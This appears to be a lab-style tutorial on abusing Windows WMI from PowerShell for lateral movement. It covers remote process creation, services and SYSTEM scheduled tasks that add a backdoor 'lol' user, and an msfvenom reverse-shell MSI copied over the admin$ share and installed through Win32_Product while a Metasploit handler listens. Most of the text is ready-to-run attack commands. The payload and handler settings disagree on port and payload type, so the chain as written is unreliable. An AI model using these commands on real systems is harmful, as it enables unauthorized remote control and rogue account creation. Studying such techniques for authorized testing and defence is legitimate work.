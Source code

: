 WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. 

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.<br>

**Connecting to WMI From Powershell**<br>

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password.
This object will be stored in the $credential variable and utilised throughout the techniques on this task:
```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
There are two protocols when establishing a WMI session **DCOM** and **Wsman**.<br>
To establish a WMI session from Powershell, we can use the following commands and store the session on the $Session variable, which we will use directry.<br>
```
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

**Remote Process Creation Using WMI**<br>

We can remotely spawn a process from Powershell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before:
```
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value lol";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```

**Creating Services Remotely with WMI**<br>

We can create services with WMI through Powershell. To create a service called LOLService, we can use the following command:
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "LOLService";
DisplayName = "LOLService";
PathName = "net user lol Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```
And then, we can get a handle on the service and start it with the following commands:

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'LOLservice'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```
Finally, we can stop and delete the service with the following commands:
```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

**Creating Scheduled Tasks Remotely with WMI**<br>

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:
```
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user lol pass1234 /add"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "LOLservice"
Start-ScheduledTask -CimSession $Session -TaskName "LOLservice"
```
To delete the scheduled task after it has been used, we can use the following command:
```
Unregister-ScheduledTask -CimSession $Session -TaskName "LOLservice"
```

**Installing MSI packages through WMI**<br>

First wo should create an msi file using our msfvenom and copy it into the target machine using something like SMB.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=4445 -f msi > lol.msi
```
```
smbclient //TargetName.DomainName.local/admin$ -U user1 -W <DomainName> -c 'put lol.msi'
```
*admin$* ->  is an administrative share on Windows machines, which provides remote access to the Windows directory (usually C:\Windows), it's a hidden share (denoted by the $) and is typically only accessible by users with administrative privileges.

Then We start a handler to receive the reverse shell from Metasploit:
```
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST <ip>; set LPORT 4444;exploit"
```
MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the *Win32_Product* class through WMI:
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\lol.msi"; Options = ""; AllUsers = $false}
```

